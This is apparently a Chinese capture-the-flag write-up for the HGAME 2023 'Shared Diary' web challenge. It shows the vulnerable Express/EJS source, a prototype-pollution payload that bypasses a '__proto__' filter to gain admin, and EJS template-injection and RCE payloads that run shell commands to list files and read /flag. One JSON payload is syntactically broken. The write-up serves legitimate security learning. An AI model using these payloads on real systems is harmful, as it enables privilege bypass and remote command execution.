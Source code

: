 # [HGAME 2023 week4]Shared Diary

## 知识点

>   js 原型链污染

>   ejs 模板引擎 RCE

>   ejs ssti

## 解题

**查看附件，主要的代码为：app.js**

```js
const express = require('express');
const bodyParser = require('body-parser');
const session = require('express-session');
const randomize = require('randomatic');
const ejs = require('ejs');
const path = require('path');
const app = express();

function merge(target, source) {
    
    for (let key in source) {
        // 防止原型污染
        if (key === '__proto__') {
            throw new Error("Detected Prototype Pollution")
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json());
app.set('views', path.join(__dirname, "./views"));
app.set('view engine', 'ejs');
app.use(session({
    name: 'session',
    secret: randomize('aA0', 16),
    resave: false,
    saveUninitialized: false
}))

app.all("/login", (req, res) => {
    if (req.method == 'POST') {
        // 将用户信息保存到会话
        let data = {};
        try {
            merge(data, req.body)
        } catch (e) {
            return res.render("login", {message: "Don't pollution my shared diary!"})
        }
        req.session.data = data

        // check password
        let user = {};
        user.password = req.body.password;
        if (user.password=== "testpassword") {
            user.role = 'admin'
        }
        if (user.role === 'admin') {
            req.session.role = 'admin'
            return res.redirect('/')
        }else {
            return res.render("login", {message: "Login as admin or don't touch my shared diary!"})
        } 
    }
    res.render('login', {message: ""});
});

app.all('/', (req, res) => {
    if (!req.session.data || !req.session.data.username || req.session.role !== 'admin') {
        return res.redirect("/login")
    }
    if (req.method == 'POST') {
        let diary = ejs.render(`<div>${req.body.diary}</div>`)
        req.session.diary = diary
        return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
    }
    return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
})


app.listen(8888, '0.0.0.0');
```

### 分析

>   分析以上代码可以得知

-   存在两个界面
    -   `/longin`
        -   登录可以获得session
        -   但是存在过滤，过滤掉了`__proto__`直接操作原型链的方法，但是还是还有别的方法操作
            -   `constructor.protoype`
        -   并不能直接将`role`的值赋值为`admin`
    -   `/`
        -   进入主页条件是需要session中的`role = admin`

### 注入

-   **首先肯定就是使用原型链将给role赋值**

    -   不过首先需要先正常登录一下，**拿到一个session**，一上来就原型链注入不知道为啥进不去，一直被挡在外面

-   **然后使用原型链发数据，并且需要修改`Content-Type`为`application/json`**

    -   ```json
        {"constructor": {"prototype": {"role": "admin"}},"username":"admin","password":"admin"}
        ```

-   使用`burpsuite`发包的得把session复制一下，然后丢浏览器中设置好这个session

-   然后去访问主页：`/`

-   然后再看源码中的`app.js`

    -   ```js
         let diary = ejs.render(`<div>${req.body.diary}</div>`)
        ```

    -   这里存在一个`ejs ssti`

    -   可以插⼊ `<%- %>` 标签来执行任意js

    -   那么就可以直接获取flag

-   ```js
    // 列文件
    <%- global.process.mainModule.require('child_process').execSync('ls -al /') %>
    // 拿flag    
    <%- global.process.mainModule.require('child_process').execSync('cat /flag') %>
    ```

-   **另一解法使用`ejs`的`rce`**

-   ```json
    {"constructor": {"prototype": {"role": "admin"，{"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');"}}},"username":"ek1ng","password":"123"}
    
    ```

    



参考：

https://www.anquanke.com/post/id/236354

http://thnpkm.xyz/index.php/archives/111/#cl-17

